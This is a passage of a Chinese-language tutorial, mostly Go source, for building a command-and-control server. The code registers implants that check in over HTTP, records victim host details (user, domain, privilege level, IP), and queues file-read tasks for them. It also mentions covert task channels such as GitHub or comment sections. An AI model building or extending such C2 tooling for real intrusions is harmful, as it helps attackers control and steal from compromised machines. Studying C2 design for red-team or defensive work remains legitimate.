    BeaconCreate(beaconId string, beat []byte, listenerName string, ExternalIP string, Async bool) error  
}
```

`server/beacon.go`：实现BeaconIsExists和BeaconCreate方法

```
func (ts *TeamServer) BeaconIsExists(beaconId string) bool {  
    return ts.Beacons.Contains(beaconId)  
}  
  
func (ts *TeamServer) BeaconCreate(beaconId string, beat []byte, listenerName string, ExternalIP string, Async bool) error {  
  
    if len(beat) < 4 {  
       return errors.New("data too short")  
    }  
  
    // 读取前4字节大端长度  
    length := binary.BigEndian.Uint32(beat[:4])  
    if int(length) > len(beat)-4 {  
       return errors.New("invalid string length")  
    }  
  
    // 读取字符串内容（去掉末尾的 \x00）  
    strBytes := beat[4 : 4+int(length)]  
    beaconName := string(strBytes)  
    if len(beaconName) > 0 && beaconName[len(beaconName)-1] == '\x00' {  
       beaconName = beaconName[:len(beaconName)-1]  
    }  
  
    // 剩余数据  
    restbeat := beat[4+int(length):]  
  
    if restbeat == nil {  
       return fmt.Errorf("beacon %v does not register", beaconId)  
    }  
  
    ok := ts.Beacons.Contains(beaconId)  
    if ok {  
       return fmt.Errorf("beacon %v already exists", beaconId)  
    }  
  
    beaconData, err := ts.Handler.BeaconCreate(beaconName, restbeat)  
    if err != nil {  
       return err  
    }  
  
    beaconData.Name = beaconName  
    beaconData.Id = beaconId  
    beaconData.Listener = listenerName  
    beaconData.ExternalIP = ExternalIP  
    beaconData.CreateTime = time.Now().Unix()  
    beaconData.LastTick = int(time.Now().Unix())  
    beaconData.Async = Async  
    beaconData.Tags = ""  
    beaconData.Mark = ""  
    beaconData.Color = ""  
  
    value, ok := ts.Listeners.Get(listenerName)  
    if !ok {  
       return fmt.Errorf("listener %v does not exists", listenerName)  
    }  
  
    lType := strings.Split(value.(response.ListenerData).Type, "/")[0]  
    if lType == "internal" {  
       beaconData.Mark = "Unlink"  
    }  
  
    beacon := &Beacon{  
       Data:       beaconData,  
       TasksQueue: safeType.NewSlice(),  
       Active:     true,  
    }  
  
    ts.Beacons.Put(beaconData.Id, beacon)  
  
    return nil  
}
```

`handler/beacon.go` 补充BeaconCreate方法，找到相应的beaconHandler

```
func (h *Handler) BeaconCreate(beaconName string, beat []byte) (response.BeaconData, error) {  
    beaconHandler, ok := h.BeaconHandlers[beaconName]  
    if !ok {  
       return response.BeaconData{}, errors.New("beacon handler not found")  
    }  
  
    return beaconHandler.BeaconCreate(beat)  
}
```

`handler/types.go`：定义BeaconHandler接口的BeaconCreate方法

```
type BeaconHandler interface {  
    BeaconGenerate(beaconConfig request.GenerateConfig, listenerConfig request.ConfigDetail) ([]byte, string, error)  
    BeaconCreate(beat []byte) (response.BeaconData, error)  
}
```

`utils/response/beacon.go`：补充BeaconData结构体，这个结构体本来是要json序列化发送给前端的，教学并未实现。

```
type BeaconData struct {  
    Id           string `json:"b_id"`  
    Name         string `json:"b_name"`  
    SessionKey   []byte `json:"b_session_key"`  
    Listener     string `json:"b_listener"`  
    Async        bool   `json:"b_async"`  
    ExternalIP   string `json:"b_external_ip"`  
    InternalIP   string `json:"b_internal_ip"`  
    GmtOffset    int    `json:"b_gmt_offset"`  
    Sleep        uint   `json:"b_sleep"`  
    Jitter       uint   `json:"b_jitter"`  
    Pid          string `json:"b_pid"`  
    Tid          string `json:"b_tid"`  
    Arch         string `json:"b_arch"`  
    Elevated     bool   `json:"b_elevated"`  
    Process      string `json:"b_process"`  
    Os           int    `json:"b_os"`  
    OsDesc       string `json:"b_os_desc"`  
    Domain       string `json:"b_domain"`  
    Computer     string `json:"b_computer"`  
    Username     string `json:"b_username"`  
    Impersonated string `json:"b_impersonated"`  
    OemCP        int    `json:"b_oemcp"`  
    ACP          int    `json:"b_acp"`  
    CreateTime   int64  `json:"b_create_time"`  
    LastTick     int    `json:"b_last_tick"`  
    KillDate     int    `json:"b_killdate"`  
    WorkingTime  int    `json:"b_workingtime"`  
    Tags         string `json:"b_tags"`  
    Mark         string `json:"b_mark"`  
    Color        string `json:"b_color"`  
}
```

`handler/beacon/beacon_main.go`：实现BeaconCreate

```
func (b *BeaconHandler) BeaconCreate(beat []byte) (response.BeaconData, error) {  
    return b.CreateBeacon(beat)  
}
```

既然都说到了打包了，那肯定是有相应的解包操作，解包器的方法如下

|  |  |  |  |
| --- | --- | --- | --- |
| 方法 | 读取规则（大端） | 移动 | 越界行为 |
| `ParseInt8` | 1字节 → `uint8` | 缓冲向前滑1B | 返回 0 |
| `ParseInt16` | 2字节 → `uint16` | 缓冲向前滑2B | 返回 0 |
| `ParseInt32` | 4字节 → `uint` | 缓冲向前滑4B | 返回 0 |
| `ParseInt64` | 8字节 → `uint64` | 缓冲向前滑8B | 返回 0 |
| `ParseBytes` | 先 `ParseInt32` 取长度N，再读N字节 | 缓冲向前滑4B+N | 空切片 |
| `ParseString` | 同上，但**去掉末尾0x00** | 缓冲向前滑4B+N | 空串 |
| `ParseString64` | 用8字节长度字段 | 缓冲向前滑8B+N | 空串 |

解析器除了解包相关的方法之外，还有一个Check方法，在不真正消费（不移动读指针）的情况下，验证后续字节流能否按给定类型序列完整解析一遍，比如说给定检验序列：{"int8"，"int64", "array"}，做预处理：

```
// 先用 Check 做“预算”
if !parser.Check([]string{"int8","int64","array"}) {
    return errors.New("数据包长度不足")
}

```

`handler/beacon/beacon_packet.go`：包含打包和解包器的相关方法

```
package beacon  
  
import (  
    "bytes"  
    "encoding/binary"    
    "errors"    
    "strings")  
  
type Parser struct {  
    buffer []byte  
}  
  
func CreateParser(buffer []byte) *Parser {  
    return &Parser{  
       buffer: buffer,  
    }  
}  
  
func (p *Parser) Size() uint {  
    return uint(len(p.buffer))  
}  
  
func (p *Parser) Check(types []string) bool {  
  
    packerSize := p.Size()  
  
    for _, t := range types {  
       switch t {  
  
       case "byte":  
          if packerSize < 1 {  
             return false  
          }  
          packerSize -= 1  
  
       case "int16":  
          if packerSize < 2 {  
             return false  
          }  
          packerSize -= 2  
  
       case "int32":  
          if packerSize < 4 {  
             return false  
          }  
          packerSize -= 4  
  
       case "int64":  
          if packerSize < 8 {  
             return false  
          }  
          packerSize -= 8  
  
       case "array":  
          if packerSize < 4 {  
             return false  
          }  
  
          index := p.Size() - packerSize  
          value := make([]byte, 4)  
          copy(value, p.buffer[index:index+4])  
          length := uint(binary.BigEndian.Uint32(value))  
          packerSize -= 4  
  
          if packerSize < length {  
             return false  
          }  
          packerSize -= length  
       }  
    }  
    return true  
}  
  
func (p *Parser) ParseInt8() uint8 {  
    var value = make([]byte, 1)  
  
    if p.Size() >= 1 {  
       if p.Size() == 1 {  
          copy(value, p.buffer[:p.Size()])  
          p.buffer = []byte{}  
       } else {  
          copy(value, p.buffer[:1])  
          p.buffer = p.buffer[1:]  
       }  
    } else {  
       return 0  
    }  
  
    return value[0]  
}  
  
func (p *Parser) ParseInt16() uint16 {  
    var value = make([]byte, 2)  
  
    if p.Size() >= 2 {  
       if p.Size() == 2 {  
          copy(value, p.buffer[:p.Size()])  
          p.buffer = []byte{}  
       } else {  
          copy(value, p.buffer[:2])  
          p.buffer = p.buffer[2:]  
       }  
    } else {  
       return 0  
    }  
  
    return binary.BigEndian.Uint16(value)  
}  
  
func (p *Parser) ParseInt32() uint {  
    var value = make([]byte, 4)  
  
    if p.Size() >= 4 {  
       if p.Size() == 4 {  
          copy(value, p.buffer[:p.Size()])  
          p.buffer = []byte{}  
       } else {  
          copy(value, p.buffer[:4])  
          p.buffer = p.buffer[4:]  
       }  
    } else {  
       return 0  
    }  
  
    return uint(binary.BigEndian.Uint32(value))  
}  
  
func (p *Parser) ParseInt64() uint64 {  
    var value = make([]byte, 8)  
  
    if p.Size() >= 8 {  
       if p.Size() == 8 {  
          copy(value, p.buffer[:p.Size()])  
          p.buffer = []byte{}  
       } else {  
          copy(value, p.buffer[:8])  
          p.buffer = p.buffer[8:]  
       }  
    } else {  
       return 0  
    }  
  
    return binary.BigEndian.Uint64(value)  
}  
  
func (p *Parser) ParseBytes() []byte {  
    size := p.ParseInt32()  
  
    if p.Size() < size {  
       return make([]byte, 0)  
    } else {  
       b := p.buffer[:size]  
       p.buffer = p.buffer[size:]  
       return b  
    }  
}  
  
func (p *Parser) ParseString() string {  
    size := p.ParseInt32()  
  
    if p.Size() < size {  
       return ""  
    } else {  
       b := p.buffer[:size]  
       p.buffer = p.buffer[size:]  
       return string(bytes.Trim(b, "\x00"))  
    }  
}  
  
func (p *Parser) ParseString64() string {  
    size := p.ParseInt64() // 读取8字节长度  
  
    if p.Size() < uint(size) {  
       return ""  
    } else {  
       b := p.buffer[:size]  
       p.buffer = p.buffer[size:]  
       return string(bytes.Trim(b, "\x00"))  
    }  
}  
  
func PackArray(array []any) ([]byte, error) {  
    var packData []byte  
  
    for i := range array {  
       switch v := array[i].(type) {  
  
       case []byte:  
          packData = append(packData, v...)  
          break  
  
       case string:  
          size := make([]byte, 4)  
          val := v  
          if len(val) != 0 {  
             if !strings.HasSuffix(val, "\x00") {  
                val += "\x00"  
             }  
          }  
          binary.BigEndian.PutUint32(size, uint32(len(val)))  
          packData = append(packData, size...)  
          packData = append(packData, []byte(val)...)  
          break  
  
       case int8:  
          packData = append(packData, byte(v))  
          break  
  
       case int16:  
          num := make([]byte, 2)  
          binary.BigEndian.PutUint16(num, uint16(v))  
          packData = append(packData, num...)  
          break  
  
       case int32:  
          num := make([]byte, 4)  
          binary.BigEndian.PutUint32(num, uint32(v))  
          packData = append(packData, num...)  
          break  
  
       case int64:  
          num := make([]byte, 8)  
          binary.BigEndian.PutUint64(num, uint64(v))  
          packData = append(packData, num...)  
          break  
  
       case bool:  
          var bt byte = 0  
          if v {  
             bt = 1  
          }  
          packData = append(packData, bt)  
          break  
  
       default:  
          return nil, errors.New("PackArray unknown type")  
       }  
    }  
    return packData, nil  
}
```

`handler/beacon/beacon_handler.go`：CreateBeacon方法，具体创建（注册）Beacon的相关代码

```
func (b *BeaconHandler) CreateBeacon(initialData []byte) (response.BeaconData, error) {  
    var beacon response.BeaconData  
  
    parser := CreateParser(initialData)  
  
    if false == parser.Check([]string{"int32", "int32", "int32", "int32", "int32", "int32", "int32", "int16", "int16", "int32", "byte", "byte", "int32", "byte", "array", "array", "array", "array", "array"}) {  
       return beacon, errors.New("error beacon data")  
    }  
  
    beacon.Sleep = parser.ParseInt32()  
    beacon.Jitter = parser.ParseInt32()  
    beacon.KillDate = int(parser.ParseInt32())  
    beacon.WorkingTime = int(parser.ParseInt32())  
    beacon.ACP = int(parser.ParseInt32())  
    beacon.OemCP = int(parser.ParseInt32())  
    beacon.GmtOffset = int(parser.ParseInt32())  
    beacon.Pid = fmt.Sprintf("%v", parser.ParseInt16())  
    beacon.Tid = fmt.Sprintf("%v", parser.ParseInt16())  
  
    buildNumber := parser.ParseInt32()  
    majorVersion := parser.ParseInt8()  
    minorVersion := parser.ParseInt8()  
    internalIp := parser.ParseInt32()  
    flag := parser.ParseInt8()  
  
    beacon.Arch = "x32"  
    if (flag & 0b00000001) > 0 {  
       beacon.Arch = "x64"  
    }  
  
    systemArch := "x32"  
    if (flag & 0b00000010) > 0 {  
       systemArch = "x64"  
    }  
  
    beacon.Elevated = false  
    if (flag & 0b00000100) > 0 {  
       beacon.Elevated = true  
    }  
  
    IsServer := false  
    if (flag & 0b00001000) > 0 {  
       IsServer = true  
    }  
  
    beacon.InternalIP = int32ToIPv4(internalIp)  
    beacon.Os, beacon.OsDesc = GetOsVersion(majorVersion, minorVersion, buildNumber, IsServer, systemArch)  
  
    beacon.SessionKey = parser.ParseBytes()  
    beacon.Domain = string(parser.ParseBytes())  
    beacon.Computer = string(parser.ParseBytes())  
    beacon.Username = ConvertCpToUTF8(string(parser.ParseBytes()), beacon.ACP)  
    beacon.Process = ConvertCpToUTF8(string(parser.ParseBytes()), beacon.ACP)  
  
    return beacon, nil  
}
```

`server/types.go`：补充Beacon结构体，包含Beacon的具体数据，是否存活，任务队列

```
type Beacon struct {  
    Data       response.BeaconData  
    Tick       bool  
    Active     bool  
    TasksQueue *safeType.Slice  
}
```

`utils/safeType/slice.go` 加上“锁”的slice类型，避免资源竞争而导致的安全问题

```
package safeType  
  
import "sync"  
  
type Slice struct {  
    mutex sync.RWMutex  
    items []interface{}  
}  
  
type SliceItem struct {  
    Index int  
    Item  interface{}  
}  
  
func NewSlice() *Slice {  
    return &Slice{}  
}  
  
func (sl *Slice) Put(value interface{}) {  
    sl.mutex.Lock()  
    defer sl.mutex.Unlock()  
  
    sl.items = append(sl.items, value)  
}  
  
func (sl *Slice) Get(index uint) (interface{}, bool) {  
    sl.mutex.RLock()  
    defer sl.mutex.RUnlock()  
  
    if index < 0 || index >= uint(len(sl.items)) {  
       return nil, false  
    }  
    return sl.items[index], true  
}  
  
func (sl *Slice) Delete(index uint) {  
    sl.mutex.Lock()  
    defer sl.mutex.Unlock()  
  
    if index < 0 || index >= uint(len(sl.items)) {  
       return  
    }  
    sl.items = append(sl.items[:index], sl.items[index+1:]...)  
}  
  
func (sl *Slice) DirectLock() {  
    sl.mutex.RLock()  
}  
  
func (sl *Slice) DirectUnlock() {  
    sl.mutex.RUnlock()  
}  
  
func (sl *Slice) DirectSlice() []interface{} {  
    return sl.items  
}  
  
func (sl *Slice) CutArray() []interface{} {  
    sl.mutex.Lock()  
    defer sl.mutex.Unlock()  
  
    array := sl.items  
    sl.items = make([]interface{}, 0)  
    return array  
}  
  
func (sl *Slice) Len() uint {  
    sl.mutex.RLock()  
    defer sl.mutex.RUnlock()  
    return uint(len(sl.items))  
}  
  
func (sl *Slice) Iterator() <-chan SliceItem {  
  
    ch := make(chan SliceItem)  
  
    sl.mutex.RLock()  
    copyItems := make([]interface{}, len(sl.items))  
    copy(copyItems, sl.items)  
    sl.mutex.RUnlock()  
  
    go func() {  
       defer close(ch)  
       for i, item := range copyItems {  
          ch <- SliceItem{Index: i, Item: item}  
       }  
    }()  
    return ch  
}
```

`handler/beacon/types.go`：补充代码页和一些常量

```
var codePageMapping = map[int]encoding.Encoding{  
    037:   charmap.CodePage037,   // IBM EBCDIC US-Canada  
    437:   charmap.CodePage437,   // OEM United States  
    850:   charmap.CodePage850,   // Western European (DOS)  
    852:   charmap.CodePage852,   // Central European (DOS)  
    855:   charmap.CodePage855,   // OEM Cyrillic (primarily Russian)  
    858:   charmap.CodePage858,   // OEM Multilingual Latin 1 + Euro  
    860:   charmap.CodePage860,   // Portuguese (DOS)  
    862:   charmap.CodePage862,   // Hebrew (DOS)  
    863:   charmap.CodePage863,   // French Canadian (DOS)  
    865:   charmap.CodePage865,   // Nordic (DOS)  
    866:   charmap.CodePage866,   // Russian (DOS)  
    936:   simplifiedchinese.GBK, // Chinese (GBK)  
    1047:  charmap.CodePage1047,  // IBM EBCDIC Latin 1/Open System  
    1140:  charmap.CodePage1140,  // IBM EBCDIC US-Canada with Euro  
    1250:  charmap.Windows1250,   // Central European (Windows)  
    1251:  charmap.Windows1251,   // Cyrillic (Windows)  
    1252:  charmap.Windows1252,   // Western European (Windows)  
    1253:  charmap.Windows1253,   // Greek (Windows)  
    1254:  charmap.Windows1254,   // Turkish (Windows)  
    1255:  charmap.Windows1255,   // Hebrew (Windows)  
    1256:  charmap.Windows1256,   // Arabic (Windows)  
    1257:  charmap.Windows1257,   // Baltic (Windows)  
    1258:  charmap.Windows1258,   // Vietnamese (Windows)  
    20866: charmap.KOI8R,         // Russian (KOI8-R)  
    21866: charmap.KOI8U,         // Ukrainian (KOI8-U)  
    28591: charmap.ISO8859_1,     // Western European (ISO 8859-1)  
    28592: charmap.ISO8859_2,     // Central European (ISO 8859-2)  
    28593: charmap.ISO8859_3,     // Latin 3 (ISO 8859-3)  
    28594: charmap.ISO8859_4,     // Baltic (ISO 8859-4)  
    28595: charmap.ISO8859_5,     // Cyrillic (ISO 8859-5)  
    28596: charmap.ISO8859_6,     // Arabic (ISO 8859-6)  
    28597: charmap.ISO8859_7,     // Greek (ISO 8859-7)  
    28598: charmap.ISO8859_8,     // Hebrew (ISO 8859-8)  
    28599: charmap.ISO8859_9,     // Turkish (ISO 8859-9)  
    28605: charmap.ISO8859_15,    // Latin 9 (ISO 8859-15)  
    65001: encoding.Nop,          // Unicode (UTF-8)  
}  
  
const (  
    OS_UNKNOWN = 0  
    OS_WINDOWS = 1  
    OS_LINUX   = 2  
    OS_MAC     = 3  
  
    TYPE_TASK       = 1  
    MESSAGE_INFO    = 5  
    MESSAGE_ERROR   = 6  
    MESSAGE_SUCCESS = 7  
)
```

`handler/beacon/beacon_utils.go` 包含三个工具函数分别解决了**编码转换、系统识别、IP 转换**

```
package beacon  
  
import (  
    "golang.org/x/text/transform"  
    "io"    
    "net"    
    "regexp"    
    "strconv"    
    "strings")  
  
func ConvertCpToUTF8(input string, codePage int) string {  
    enc, exists := codePageMapping[codePage]  
    if !exists {  
       return input  
    }  
  
    reader := transform.NewReader(strings.NewReader(input), enc.NewDecoder())  
    utf8Text, err := io.ReadAll(reader)  
    if err != nil {  
       return input  
    }  
  
    return string(utf8Text)  
}  
  
func GetOsVersion(majorVersion uint8, minorVersion uint8, buildNumber uint, isServer bool, systemArch string) (int, string) {  
    var (  
       desc string  
       os   = OS_UNKNOWN  
    )  
  
    osVersion := "unknown"  
    if majorVersion == 10 && minorVersion == 0 && isServer && buildNumber >= 19045 {  
       osVersion = "Win 2022 Serv"  
    } else if majorVersion == 10 && minorVersion == 0 && isServer && buildNumber >= 17763 {  
       osVersion = "Win 2019 Serv"  
    } else if majorVersion == 10 && minorVersion == 0 && !isServer && buildNumber >= 22000 {  
       osVersion = "Win 11"  
    } else if majorVersion == 10 && minorVersion == 0 && isServer {  
       osVersion = "Win 2016 Serv"  
    } else if majorVersion == 10 && minorVersion == 0 {  
       osVersion = "Win 10"  
    } else if majorVersion == 6 && minorVersion == 3 && isServer {  
       osVersion = "Win Serv 2012 R2"  
    } else if majorVersion == 6 && minorVersion == 3 {  
       osVersion = "Win 8.1"  
    } else if majorVersion == 6 && minorVersion == 2 && isServer {  
       osVersion = "Win Serv 2012"  
    } else if majorVersion == 6 && minorVersion == 2 {  
       osVersion = "Win 8"  
    } else if majorVersion == 6 && minorVersion == 1 && isServer {  
       osVersion = "Win Serv 2008 R2"  
    } else if majorVersion == 6 && minorVersion == 1 {  
       osVersion = "Win 7"  
    }  
  
    desc = osVersion + " " + systemArch  
    if strings.Contains(osVersion, "Win") {  
       os = OS_WINDOWS  
    }  
    return os, desc  
}  
  
func int32ToIPv4(ip uint) string {  
    bytes := []byte{  
       byte(ip),  
       byte(ip >> 8),  
       byte(ip >> 16),  
       byte(ip >> 24),  
    }  
    return net.IP(bytes).String()  
}  
```

## 4.4 测试

①以调式的方式启动服务器，请在需要的地方下断点，比如说 `handler/listener/http_listener.go` 的processRequest！



②postman发送监听器创建请求，不需要生成Beacon操作，为了调式分析方便将配置硬编码到Beacon里了



③Beacon启动



④我们忽略一些过程，直接看TeamServer是否有Beacon的数据



⑤如果创建成功，服务器会发送状态码200，下图是Beacon的控制台输出



# 五、任务下发

任务包长什么样子呢？一个任务包=任务包的长度（不包含长度字段，4B）+任务ID（4B）+任务数据（任务类型4B+Args）



**任务创建**代码编写顺序：Controller.InitRouter->Controller.BeaconCommandExecute->TeamServer.BeaconCommand->Handler.BeaconCommand->beaconHandler.BeaconCommand->beaconHandler.CreateTask->TeamServer.TaskCreate

**任务获取**代码编写顺序：HTTP.processRequest->TeamServer.BeaconGetAllTasks->TeamServer.TaskGetAll->Handler.BeaconPackData->beaconHandler.BeaconPackData->beaconHandler.BeaconHandler->beaconHandler.EncryptData

上面的编写顺序只包含主逻辑相关函数，一些工具函数就没列举出来了，具体看下面的代码编写

## 5.1 任务创建

`controller/controller.go` 增加一条"/beacon/command/execute"路由

```
func (c *Controller) InitRouter() {  
  
    apiGroup := c.Engine.Group(c.Endpoint)  
  
    apiGroup.GET("/test", c.Test)  
    apiGroup.POST("/listener/create", c.ListenerStart)  
    apiGroup.POST("/beacon/generate", c.BeaconGenerate)  
    apiGroup.POST("/beacon/command/execute", c.BeaconCommandExecute)
```

`controller/beacon.go`：新增BeaconCommandExecute方法

```
func (c *Controller) BeaconCommandExecute(ctx *gin.Context) {  
    var (  
       username    string  
       commandData request.CommandData  
       err         error  
    )  
  
    err = ctx.ShouldBindJSON(&commandData)  
    if err != nil {  
       logs.Logger.Error("Error in binding JSON data: ", zap.Error(err))  
       ctx.JSON(http.StatusBadRequest, gin.H{"code": false, "message": err.Error()})  
       return  
    }  
  
    username = "oneday"  
  
    err = c.TeamServer.BeaconCommand(commandData.BeaconType, commandData.BeaconId, username, commandData.CmdLine, commandData.Data)  
    if err != nil {  
       ctx.JSON(http.StatusOK, gin.H{"message": err.Error(), "ok": false})  
       return  
    }  
  
    ctx.JSON(http.StatusOK, gin.H{"message": "Beacon command task submitted successfully", "ok": true})  
}
```

`utils/request/beacon.go` 接收前端CommandData的json数据

```
type CommandData struct {  
    BeaconType string         `json:"beacon_type"`  
    BeaconId   string         `json:"beacon_id"`  
    CmdLine    string         `json:"cmdline"`  
    Data       map[string]any `json:"data"`  
}
```

`controller/types.go` 在TeamServer接口定义BeaconCommand方法

```
type TeamServer interface {  
    ListenerStart(listenerName string, configType string, config request.ConfigDetail) error  
    ListenerGetConfig(listenerName string, configType string) (request.ConfigDetail, error)  
    BeaconGenerate(beaconConfig request.BeaconConfig, listenerConfig request.ConfigDetail) ([]byte, string, error)  
    BeaconCommand(beaconName string, beaconId string, clientName string, cmdline string, args map[string]any) error  
}
```

为了测试方便可以在Beacon项目中硬编码BeaconId



`server/beacon.go`：实现TeamServer.BeaconCommand方法

```
func (ts *TeamServer) BeaconCommand(beaconName string, beaconId string, clientName string, cmdline string, args map[string]any) error {  
    value, ok := ts.Beacons.Get(beaconId)  
    if !ok {  
       return fmt.Errorf("beacon '%v' does not exist", beaconId)  
    }  
    beacon, _ := value.(*Beacon)  
  
    if beacon.Active == false {  
       return fmt.Errorf("beacon '%v' not active", beaconId)  
    }  
  
    return ts.Handler.BeaconCommand(clientName, cmdline, beaconName, beacon.Data, args)  
}
```

`handler/beacon.go` BeaconCommand，找到相应的beaconHandle处理者

```
func (h *Handler) BeaconCommand(client string, cmdline string, beaconName string, beaconData response.BeaconData, args map[string]any) error {  
    beaconHandler, ok := h.BeaconHandlers[beaconName]  
    if !ok {  
       return errors.New("beacon handler not found")  
    }  
    return beaconHandler.BeaconCommand(client, cmdline, beaconData, args)  
}
```

`handler/types.go` 在BeaconHandler处理中定义BeaconCommand方法

```
type BeaconHandler interface {  
    BeaconGenerate(beaconConfig request.GenerateConfig, listenerConfig request.ConfigDetail) ([]byte, string, error)  
    BeaconCreate(beat []byte) (response.BeaconData, error)  
    BeaconCommand(client string, cmdline string, beaconData response.BeaconData, args map[string]any) error  
}
```

`handler/beacon/beacon_main.go` 实现BeaconHandler.BeaconCommand方法

```
func (b *BeaconHandler) BeaconCommand(client string, cmdline string, beaconData response.BeaconData, args map[string]any) error {  
    command, ok := args["command"].(string)  
    if !ok {  
       return errors.New("'command' must be set")  
    }  
  
    taskData, err := b.CreateTask(beaconData, command, args)  
    if err != nil {  
       return err  
    }  
  
    b.ts.TaskCreate(beaconData.Id, cmdline, client, taskData)  
  
    return nil  
}
```

`handler/beacon/types.go` 在TeamServer接口处定义TaskCreate方法

```
type TeamServer interface {  
    TaskCreate(beaconId string, cmdline string, client string, taskData response.TaskData)  
}
```

`utils/response/task.go` 定义TaskData结构体

```
package response  
  
type TaskData struct {  
    Type        int    `json:"t_type"`  
    TaskId      string `json:"t_task_id"`  
    BeaconId    string `json:"t_beacon_id"`  
    Client      string `json:"t_client"`  
    User        string `json:"t_user"`  
    Computer    string `json:"t_computer"`  
    StartDate   int64  `json:"t_start_date"`  
    FinishDate  int64  `json:"t_finish_date"`  
    Data        []byte `json:"t_data"`  
    CommandLine string `json:"t_command_line"`  
    MessageType int    `json:"t_message_type"`  
    Message     string `json:"t_message"`  
    ClearText   string `json:"t_clear_text"`  
    Completed   bool   `json:"t_completed"`  
    Sync        bool   `json:"t_sync"`  
}
```

`handler/beacon/beacon_handler.go` 补充CreateTask方法（不完整），主要就是根据命令类型将commandId和一些参数打包在一起。**回答上文的一个疑问**：taskData是原始命令包，是 `[]byte` 类型的，接下来这个taskData会与其他数据（任务包长度、taskID）再一次打包，形成真正的任务包，如果在 `PackArray方法` 里打包长度会增加一个长度字段，这个字段是多余的。

```
func (b *BeaconHandler) CreateTask(beacon response.BeaconData, command string, args map[string]any) (response.TaskData, error) {  
  
    var (  
       taskData response.TaskData  
       err      error  
    )  
  
    taskData = response.TaskData{  
       Type: TYPE_TASK,  
       Sync: true,  
    }  
  
    var array []interface{}  
  
    switch command {  
    case "cat":  
       path, ok := args["path"].(string)  
       if !ok {  
          err = errors.New("parameter 'path' must be set")  
          goto RET  
       }  
       array = []interface{}{int32(COMMAND_CAT), ConvertUTF8toCp(path, beacon.ACP)}  
    default:  
       err = errors.New(fmt.Sprintf("Command '%v' not found", command))  
       goto RET  
    }  
  
    taskData.Data, err = PackArray(array)  
    if err != nil {  
       goto RET  
    }  
  
RET:  
    return taskData, err  
  
}
```

`handler/beacon/types.go`：CommandId常量

```
const (  
    COMMAND_CAT = 1  
)
```

`handler/beacon/beacon_utils.go` 补充ConvertUTF8toCp方法，方法功能是将UTF-8编码的字符串转换成指定 Windows代码页（code page）的编码。

```
func ConvertUTF8toCp(input string, codePage int) string {  
    enc, exists := codePageMapping[codePage]  
    if !exists {  
       return input  
    }  
  
    transform.NewWriter(io.Discard, enc.NewEncoder())  
    encodedText, err := io.ReadAll(transform.NewReader(strings.NewReader(input), enc.NewEncoder()))  
    if err != nil {  
       return input  
    }  
  
    return string(encodedText)  
}
```

`server/task.go` 实现TeamServer接口的TaskCreate方法，该方法先校验目标是否在线、补充缺失元数据、生成唯一任务ID，最后把任务塞进对应Beacon的任务队列里。

```
package server  
  
import (  
    "OneServer/logs"  
    "OneServer/utils/crypt"    
    "OneServer/utils/response"    
    "fmt"    
    "go.uber.org/zap"    
    "time")  
  
func (ts *TeamServer) TaskCreate(beaconId string, cmdline string, client string, taskData response.TaskData) {  
    value, ok := ts.Beacons.Get(beaconId)  
    if !ok {  
       logs.Logger.Error("TsTaskCreate: beacon not found", zap.String("beaconId", beaconId))  
       return  
    }  
  
    beacon, _ := value.(*Beacon)  
    if beacon.Active == false {  
       return  
    }  
  
    if taskData.TaskId == "" {  
       taskData.TaskId, _ = crypt.GenerateUID(8)  
    }  
    taskData.BeaconId = beaconId  
    taskData.CommandLine = cmdline  
    taskData.Client = client  
    taskData.Computer = beacon.Data.Computer  
    taskData.StartDate = time.Now().Unix()  
    if taskData.Completed {  
       taskData.FinishDate = taskData.StartDate  
    }  
  
    taskData.User = beacon.Data.Username  
    if beacon.Data.Impersonated != "" {  
       taskData.User += fmt.Sprintf(" [%s]", beacon.Data.Impersonated)  
    }  
  
    switch taskData.Type {  
  
    case TYPE_TASK:  
       beacon.TasksQueue.Put(taskData)  
    default:  
       break  
    }  
}
```

`utils/crypt/rand.go` 根据指定长度生成唯一ID的GenerateUID方法

```
package crypt  
  
import (  
    "crypto/rand"  
    "encoding/hex"    
    "fmt"    
    "time")  
  
func GenerateUID(length int) (string, error) {  
    if length <= 0 {  
       return "", fmt.Errorf("length must be greater than 0")  
    }  
  
    // 获取当前时间戳（纳秒级）  
    timestamp := time.Now().UnixNano()  
  
    // 将时间戳转换为16进制字符串  
    timestampHex := fmt.Sprintf("%x", timestamp)  
  
    // 计算还需要多少随机字符  
    randomLength := length - len(timestampHex)  
  
    // 如果时间戳部分已经超过了请求的长度，则截断  
    if randomLength <= 0 {  
       return timestampHex[:length], nil  
    }  
  
    // 计算需要多少随机字节  
    byteLength := randomLength / 2  
    if randomLength%2 != 0 {  
       byteLength++  
    }  
  
    // 生成随机字节  
    randomBytes := make([]byte, byteLength)  
    _, err := rand.Read(randomBytes)  
    if err != nil {  
       return "", err  
    }  
  
    // 转换为十六进制字符串  
    randomHex := hex.EncodeToString(randomBytes)[:randomLength]  
  
    // 拼接时间戳和随机部分  
    result := timestampHex + randomHex  
  
    // 确保长度正确  
    if len(result) > length {  
       result = result[:length]  
    }  
  
    return result, nil  
}
```

`server/types.go` 补充任务类型常量，本项目中只有 `TYPE_TASK` 类型的任务

```
const (  
    TYPE_TASK       = 1  
)
```

## 5.2 任务获取

本项目中通过HTTP POST 不断的轮询向服务器请求任务，轮询就是一个死循环，然后在循环体里不断发送任务请求，等待服务器响应，解析响应走入不同的处理分支。任务还可以从DNS、SMB、TCP socket、WebSocket，grpc等协议通信获取，甚至github，百度网盘，评论区等可以留存文本信息且能读取的网站中获取，它们的优劣就看各位师傅使用的场景，我就不在这里长篇大论了。

**这一小节只编写Server端的相关代码**

`handler/listener/http_listener.go` processRequest补充“**获取任务**”和“**替换payload存放的位置**”的相关代码

```
func (handler *HTTP) processRequest(ctx *gin.Context) {  
  
    // 校验请求合法性  
    err := handler.validate(ctx)  
    if err != nil {  
       return  
    }  
  
    // 获取外部 IP    
    externalIP := strings.Split(ctx.Request.RemoteAddr, ":")[0]  
    if handler.Config.XForwardedFor {  
       xff := ctx.Request.Header.Get("X-Forwarded-For")  
       if xff != "" {  
          externalIP = xff  
       }  
    }  
  
    beaconId, beat, err := handler.parseBeat(ctx)  
    if err != nil {  
       handler.pageError(ctx)  
       return  
    }  
  
    if !listenerHTTP.ts.BeaconIsExists(beaconId) {  
       if err := listenerHTTP.ts.BeaconCreate(beaconId, beat, handler.Name, externalIP, true); err != nil {  
          handler.pageError(ctx)  
          return  
       }  
    }  
  
    responseData, err := listenerHTTP.ts.BeaconGetAllTasks(beaconId, 0x1900000) // 25 Mb  
    if err != nil {  
       handler.pageError(ctx)  
       return  
    }  
  
